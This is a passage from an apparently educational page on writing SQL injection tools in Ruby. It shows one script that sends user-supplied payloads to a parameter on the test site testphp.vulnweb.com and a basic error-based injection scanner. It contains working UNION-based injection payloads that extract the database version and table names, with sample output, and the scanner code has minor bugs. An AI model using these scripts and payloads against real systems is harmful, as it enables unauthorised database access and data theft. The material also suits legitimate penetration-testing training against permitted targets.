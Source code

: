 # SQL Injection Scanner


## Basic SQLi script as command line browser

The is a very basic script take your given payload and send it to the vulnerable parameter and returns the response back to you. I'll use (http://testphp.vulnweb.com/) as it's legal to test.

```ruby
#!/usr/bin/evn ruby
#
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts ""
```


> I've commented the line `puts response.body.gsub(/<.*?>/, '').strip` and added a custom RegEx to fix our target outputs.



Let's to test it in action

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL
```





Here a very basic and simple SQL-injection solid scanner, develop it as far as you can!

```ruby
#!/usr/bin/env ruby
#
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      '\'',
      '"',
      '\' or 1=2--+'
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occured = vulnerable
puts "[+] The #{URL.decode(uri.to_s)} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil?

```

Try this url (http://testasp.vulnweb.com/showforum.asp?id=0)

